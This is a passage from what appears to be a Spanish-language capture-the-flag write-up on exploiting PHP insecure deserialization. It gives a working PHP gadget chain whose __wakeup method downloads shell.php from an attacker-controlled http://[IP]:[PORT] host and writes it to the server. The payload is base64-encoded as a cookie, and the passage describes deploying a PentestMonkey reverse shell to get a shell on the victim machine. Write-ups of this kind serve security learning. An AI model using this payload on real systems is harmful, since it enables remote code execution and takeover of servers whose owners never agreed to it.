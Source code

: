 Lo vamos a modificar para que ejecute una revershell y nos de acceso a la máquina, generando un payload mediante el cual ejecutarlo, el cual nos queda así.

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?php
</strong><strong>class Avatar {
</strong>    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://[IP]:[PORT]/shell.php";
    public $imgPath = "./shell.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
$payload = base64_encode(serialize(new AvatarInterface));
echo $payload
?>
</code></pre>

Al ejecutarlo nos generará una cookie quue usaremos de Payload para ejecutar una shell que desplegaremos en un servidor python.&#x20;

Crearemos un archivo shell.php el cual contendrá una revershell de [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell)

Y levantamos el servidor python... En este punto generamos el Payload anterior.

<figure><img src="../../../../.gitbook/assets/19 (2).png" alt=""><figcaption></figcaption></figure>

En este punto ya debemos sustituir la cookie y se ejecutará la shell conectando con nuestro shell.php y en ese momento obtendremos acceso a una shell dentro de la máquina victima.

<figure><img src="../../../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>
